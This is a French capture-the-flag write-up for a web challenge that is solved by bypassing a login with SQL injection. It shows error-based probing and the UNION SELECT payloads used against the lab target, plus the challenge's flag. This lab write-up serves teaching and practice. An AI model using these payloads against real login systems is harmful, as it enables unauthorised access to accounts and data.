 # EZ CTF

## Web

### Super Secure

**Difficulté :** Facile

**Enoncé :** C'est tellement incassable ! 

***

Le challenge consiste à bypass l'authentification via une SQLi.

Je commence par tester des payloads courts afin de trouver un point d'entrée.

Je récupère une erreur intérrésante avec un simple `'` :

```sql
Could not successfully run query (SELECT * FROM members WHERE username = ''' AND password = 'd41d8cd98f00b204e9800998ecf8427e') from DB: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e'' at line 1
```

Grâce aux erreurs renvoyées par le serveur, je vais pouvoir constuire mon payload.

Je tente donc d'exploit la SQLi avec une requête UNION : `1' UNION SELECT null-- -`

```sql
Could not successfully run query (SELECT * FROM members WHERE username = '1' UNION SELECT null-- -' AND password = 'd41d8cd98f00b204e9800998ecf8427e') from DB: The used SELECT statements have a different number of columns
```

Le message d'erreur retourné nous informe qu'il y a plusieurs colonnes.

Je vais donc ajuster mon payload pour satisfaire le nombre de colonne en rajoutant des valeurs `null` : 

```sql
1' UNION SELECT null,null,null-- -
```

![image](https://user-images.githubusercontent.com/49941629/167300247-9600e52e-ba68-4b0c-8dfb-454aba2d522e.png)

Flag : EZ-CTF{N0t_S0_S4f3_4ft3r_411}
